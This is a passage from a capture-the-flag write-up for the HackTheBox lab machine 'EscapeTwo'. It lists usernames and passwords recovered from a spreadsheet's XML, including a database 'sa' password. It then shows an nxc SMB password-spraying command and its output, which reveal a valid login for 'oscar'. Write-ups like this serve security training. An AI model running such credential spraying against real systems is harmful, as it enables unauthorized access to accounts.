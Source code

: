 ```xml
    <si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si>
    <si><t xml:space="preserve">Kevin</t></si>
    <si><t xml:space="preserve">Malone</t></si>
    <si><t xml:space="preserve">kevin@sequel.htb</t></si>
    <si><t xml:space="preserve">kevin</t></si>
    <si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si>
    <si><t xml:space="preserve">NULL</t></si>
    <si><t xml:space="preserve">sa@sequel.htb</t></si>
    <si><t xml:space="preserve">sa</t></si>
    <si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si>
</sst>

Users:
angela
oscar
kevin
sa

Password:
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
```


## Initial Foothold

Using password spraying, I successfully found valid credentials for the user 'oscar' with the password '86LxLBMgEWaKUnBG'. I will now attempt to enumerate further using these credentials to discover additional attack vectors.
```bash
[May 19, 2025 - 20:35:54 (WIB)] exegol-htb EscapeTwo # nxc smb 10.10.11.51 -u users.txt -p passwords.txt
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
```

I want to use the `--users` option in LDAP to check if there are other accounts

![image.png](assets/images/EscapeTwo/image%202.png)

